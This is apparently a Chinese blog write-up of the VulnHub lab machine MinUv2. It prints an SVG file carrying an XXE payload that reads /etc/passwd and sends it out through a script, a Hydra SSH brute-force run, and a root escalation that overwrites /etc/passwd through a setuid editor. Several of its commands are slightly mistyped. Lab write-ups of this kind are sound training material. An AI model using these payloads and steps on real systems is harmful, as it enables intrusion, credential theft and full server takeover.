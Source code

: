 ```yaml
---
layout:     post
title:      "「渗透」SVG的神秘力量：minUv2"
subtitle:   "Used SVG vulnerability to attack a linux server"
date:       2019-07-01
nav-style:  "invert"
author:     "Bin4xin"
header-img: "img/post-bg-halting.jpg"
catalog: true
tags:
    - Web
    - 漏洞复现
    - 渗透
    - vulnhub
---
```

# 序言
hello,各位。最近闲来无事，工作之余偷偷用公司电脑测试入侵了一个linux靶机，遂记录下。（手动狗头）
这个靶机本身难度适中，复现了svg的代码执行漏洞且要求对linux的系统命令较为熟悉；svg大体来说是一种图像文件格式，基于XML，由W3C联盟进行开发的，支持网页打开，编辑方便等。可以自行深入搜索~各位大佬见笑。
## 一、靶机简介
minUv2<br>
下载地址
Download (Mirror): https://download.vulnhub.com/minu/MinUv2.ova.7z
Download (Torrent): https://download.vulnhub.com/minu/MinUv2.ova.7z.torrent 
## 二、实战
江湖规矩，神器开路：首先先用`Nmap`扫描确定靶机地址。发现靶机ip。
这里靶机只支持vbox，所以得桥接通信，打码请谅解~
![](https://p2.ssl.qhimg.com/t0167faf934cb9977ca.png)
确定ip直接端口扫描~
![](https://p4.ssl.qhimg.com/t011687f39e33bbe3e4.png)
发现只开放了两个端口：`22、3306`端口。22端口暂时先放着不管，咱们看看3306端口。
是一个web页面，emmmm.主角登场，svg图像~
![](https://p0.ssl.qhimg.com/t019035849ce7a48ccf.png)
## 三、发现漏洞
小弟赶紧dirb扫描一波，果然有发现。<br>
```applescript
#扫描3306端口下的html后缀的文件
dirb http://$_ip:port -X .html
--------------
+ http://$_ip:port/upload.html (CODE:200|SIZE:908)
--------------
DOWNLOADED: 4612 - FOUND: 1
```
发现了上传网页，且只能上传svg、img文件，又惊又喜。exp搜索一哈找到poc，验证一下漏洞的存在。poc代码如下：
```applescript
#poc上传上去页面回显
#<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY xxe SYSTEM "/etc/passwd">
]>
<svg version="1.0" xmlns="http://www.w3.org/2000/svg" width="19000px" xmlns:xlink="http://www.w3.org/1999/xlink" >
<text x="-1000" y="-1000" >&xxe;</text>
<circle cx="50" cy="50" r="40" stroke="black" stroke-width="3" 		fill="red" />
<script>
var logger = "http://localhost/?file=" +
encodeURIComponent(document.getElementsByTagName("text")	[0].innerHTML);
document.createElementNS('http://www.w3.org/2000/svg','image').setAttributeNS('http://www.w3.org/1999/xlink','href', logger);
</script></svg>
```
<br>
果然有`xxe`漏洞，但是验证了漏洞不能让我们有实际的渗透进展，只能对一些文件内容进行查看，无法得到shell，要怎么办呢？
![](https://p1.ssl.qhimg.com/t0163eb735e597071e2.png)

## 四、get shell
就在小弟愁眉苦脸的时候，忽然看到最后一行用户名的进程是/bin/ash，想到ash shell会有历史纪录，赶紧重新上传一个poc验证想法。回显内容：<br>
```applescript
"./ash.history"获取~
Useradd –D bossdonttrackme –p superultrapass3
```
根据所得的内容生成用户字典（passwd回显的用户名），密码字典。用Hydra跑一下。
```applescript
##hydra -L /root/Documents/test/minu/use.txt -P /root/Documents/test/minu/passwd.txt ssh://$_ip
Hydra v8.9.1 (c) 2019 by van Hauser/THC - Please do not use in military or 
secret service organizations, or for illegal purposes.
[WARNING] Many SSH configurations limit the number of parallel tasks, it is
recommended to reduce the tasks: use -t 4	[DATA] max 16 tasks per 1 server, overall 16 tasks, 30 login tries (l:30/p:1), ~2 tries per task
[DATA] attacking ssh://$_ip:22/
[22][ssh] host: $_ip ** login: employee password: superultrapass3**
1 of 1 target successfully completed, 1 valid password found
##跑出来账号密码employee：uperultrapass3，ssh连上去。
##连接上去查看一下基本信息 
ssh employee@ip
whoami
id | find -perm -4000 2>/dev/null
```
![](https://p5.ssl.qhimg.com/t013dbd6663c5c9720e.png)
## 五、提权
发现`micro`和`bbsuid`不需要高权限，运行一下，发现micro是一个`文本编辑工具器`。接下来就简单了。
```applescript
#生成一份hash值，替换掉passwd的用户密码，这样密码就已知了。
#用micro编辑器打开passwd文件，替换root密码保存即可
passwd -1 -salty root admin123(随意)
cat /etc/passwd |/usr/bin/micro
```
![](https://p5.ssl.qhimg.com/t0198aaa755e6394b0f.png)
这样我们就已知root密码了，直接切换用户
```applescript
minuv2:~$ su root
Password: 
minuv2:/home/employee# whoami
root
minuv2:/home/employee#
```
![](https://p2.ssl.qhimg.com/t01aefe59b403bdcc5c.png)
获得flag~感谢各位

